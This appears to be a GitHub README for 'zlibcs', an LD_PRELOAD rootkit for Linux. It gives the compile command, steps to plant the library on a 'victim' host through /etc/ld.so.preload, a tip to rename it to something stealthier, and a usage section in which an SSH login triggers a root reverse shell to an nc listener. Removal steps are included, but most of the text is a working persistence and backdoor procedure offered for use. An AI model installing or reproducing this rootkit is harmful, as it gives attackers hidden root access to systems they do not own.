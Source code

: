 zlibcs


Compile:
```bash
gcc zlibcs.c -o zlibcs.so -fPIC -shared -ldl -D_GNU_SOURCE
```

## Installation
On the target, copy the shared library/rootkit to where the other shared libraries reside.

64-bit example:
```bash
root@victim:~# cp zlibcs.so /lib/x86_64-linux-gnu/
root@victim:~# cp zlibcs.so /lib/
```
And copy the path of the rootkit into /etc/ld.so.preload.
```bash
root@victim:~# echo "/lib/x86_64-linux-gnu/zlibcs.so" > /etc/ld.so.preload
root@victim:~# echo "/lib/zlibcs.so" > /etc/ld.so.preload
```

I would advise renaming `zlibcs.so` to something more stealthy.

### Verify installation
You can check if the rootkit is installed by running```ldd``` and checking that your malicious library gets loaded.
```bash
root@victim:~# ldd /usr/sbin/sshd
	linux-vdso.so.1 (0x00007ffe9214c000)
	/lib/x86_64-linux-gnu/zlibcs.so (0x00007f17ed354000)
    [...]
```
Also check /etc/ld.so.preload for your entry.
```bash
root@victim:~# cat /etc/ld.so.preload 
/lib/x86_64-linux-gnu/zlibcs.so
```

## Usage
1. Install as above
2. Start a listener to receive reverse shell
```bash
nc -lvnp 9001
```
3. SSH to the target machine. A shell should spawn on your listener.
It (almost) always doens't work the first time, so SSH twice.
```bash
ssh hey@10.11.0.56
hey@10.11.0.56's password:
^C
ssh hey@10.11.0.56
hey@10.11.0.56's password:
^C
```
```bash
nc -lvnp 9001
[...]
Connection received
[+] spawning shell... 
id
uid=0(root) gid=0(root) groups=0(root)
```

## Remove rootkit
Delete `/etc/ld.so.preload` and delete the maliciuos library. 
Nothing else needed.
```bash
root@victim:~# rm /etc/ld.so.preload
root@victim:~# rm /lib/x86_64-linux-gnu/zlibcs.so
```

